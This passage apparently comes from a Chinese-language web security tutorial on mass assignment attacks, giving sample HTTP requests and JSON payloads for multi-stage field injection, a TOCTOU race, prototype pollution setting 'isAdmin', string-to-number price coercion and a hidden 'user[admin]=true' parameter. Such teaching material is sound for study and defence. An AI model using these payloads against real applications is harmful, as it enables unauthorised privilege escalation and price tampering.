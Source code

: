 ### 4.2 复杂场景攻击
#### 4.2.1 多阶段分配攻击
```http
POST /user/update_profile HTTP/1.1
Content-Type: application/json

{
  "basic_info": {
    "name": "Alice",
    "preferences": {
      "theme": "dark",
      "security_level": 0
    }
  },
  "hidden_fields": {
    "api_token": "malicious_token"
  }
}
```

#### 4.2.2 时间差攻击（TOCTOU）
1. 正常请求获取合法对象
2. 在验证通过后保存前，通过并发请求修改关键字段

## 5. 高级利用技术
### 5.1 属性覆盖链攻击
```javascript
// 利用原型链污染
{
  "__proto__": {
    "isAdmin": true
  },
  "username": "attacker"
}
```

### 5.2 类型转换绕过
```http
POST /api/products HTTP/1.1
Content-Type: application/json

{
  "price": "0" // 框架自动转换为数值型
}
```

### 5.3 隐蔽参数传递
```http
GET /register?user[admin]=true&redirect=legit-site.com HTTP/1.1
```
